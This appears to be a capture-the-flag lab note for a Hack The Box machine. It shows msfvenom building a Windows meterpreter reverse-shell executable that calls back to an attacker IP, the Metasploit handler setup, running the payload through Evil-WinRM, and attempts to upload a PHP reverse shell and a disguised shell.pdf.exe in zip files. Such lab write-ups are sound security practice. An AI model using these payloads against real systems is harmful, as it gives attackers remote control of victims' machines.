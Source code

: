 
### A collection of our levers in the webapp

![alt text](../../../assets/images/ctf/events/season8-htb-25/2025-06-07-week3-certificate.md/2025-06-07-week3-certificate/image.png)

A reminder on how to use meterpreter for a reverse shell. We'll keep doing these in case we need it, but we won't in this challenge.

On attack box

```sh
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.28 LPORT=9999 -f exe > shell.exe

msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 10.10.14.28
lhost => 10.10.14.28
msf6 exploit(multi/handler) > set lport 9999
lport => 9999
msf6 exploit(multi/handler) > run
```

On victim

```sh
*Evil-WinRM* PS C:\Users\steph.cooper\Downloads> ./shell.exe
```


```sh
# PHP revshell, dont' know where it landed, no errors
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip sub
  adding: sub/ (stored 0%)
  adding: sub/revshell.php (deflated 60%)

# msfvenom attempt, 400 error with .pdf.exe embedded
[nix-shell:~/ctf/htb/season8/week3-certificate]$ zip -r assignment.zip shell.pdf.exe 
  adding: shell.pdf.exe (deflated 40%)

```
